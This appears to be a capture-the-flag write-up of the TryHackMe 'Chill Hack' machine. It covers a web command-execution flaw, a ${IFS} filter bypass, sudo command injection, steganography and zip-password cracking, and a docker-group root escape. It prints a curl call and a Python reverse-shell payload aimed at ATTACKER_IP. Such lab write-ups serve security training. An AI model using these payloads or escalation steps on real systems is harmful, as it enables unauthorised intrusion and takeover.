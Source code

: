 # Summary

This is [Chill Hack](https://tryhackme.com/room/chillhack) box from TryHackMe.
\
\
Nice machine containing out-of-the-box RCE, escalation using sudo and docker, getting information from picture using steganography.

# Recon


## Scan
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.79.146
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09f95db918d0b23a822d6e768cc20144 (RSA)
|   256 1bcf3a498b1b20b02c6aa551a88f1e62 (ECDSA)
|_  256 3005cc52c66f6504860f7241c8a439cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

So there is **ftp**, **ssh** and **http**.

## Website 

Dirb was able to find `/secret/` directory which looked like being able to execute commands sent via POST request:\
![Alt text](image.png)
\
Request:

> POST /secret/ HTTP/1.1 \
> Host: 10.10.97.198 \
> [...]\
\
> **command=pwd**

Response:

> HTTP/1.1 200 OK \
> [...]\
> **/var/www/html/secret**\
> [...]

That already allows RCE as www-data user:
![Alt text](image-1.png)\
However there is one more trick needed in order to easily execute commands.
Attacker needs to use `${IFS}` instead of spaces/plus signs as they're not treated properly by server.\
So example payload would look like below:

```
command=curl${IFS}http%3a//ATTACKER_IP%3a9999
```

And in order to create shell, the payload looked like that: &tag&
```
command=python3${IFS}-c${IFS}'import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'
```

## FTP

Attacker can also use anonymous login to get to ftp and find a `note.txt` which contains the following:

```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```
From it, it's useful to remember two potential usernames: **Anurodh** and **Apaar**

# Privesc

## www-data to Apaar

After running `sudo -l`, it turns out that there is a `/home/apaar/.helpline.sh` script shich can be run as `apaar` user without providing password.
So after running `sudo -u apaar /home/apaar/.helpline.sh`, the script is ran as `apaar` user.
The script is vulnerable to `command injection`, so attacker can now execute anny command as `apaar`.
After providing `/bin/bash` as requested message, attacker has working shell:
![Alt text](image-2.png)


## Apaar to Anurodh

In `/var/www/files/index.php` there are leaked mysql db credentials (the hashes require cracking), however they don't seem to be working.

After browsing some more files, i decided to take a look at `/var/www/files/images`, especially the .jpeg one.
It turned out that steghide is able to extract some archive from it, but it needs password in order to be opened.
Luckily, this password can be easily cracked.

Commands used:
```
zip2john backup.zip > john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt john.txt
```

Cracking doesn't take long and after unzipping the archive, attacker can read source_code.php file.
Inside file, there is a hardcoded string which is password in base64.
After decoding the string and checking on ssh, it turns out that it's anurodh's password.

## Anurodh to root

After running `id` command as Anurodh it turns out, that this user is in `docker` group.
GTFOBins presents some privesc techniques using docker.

Running following command spawns shell as root:
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
![Alt text](image-3.png)

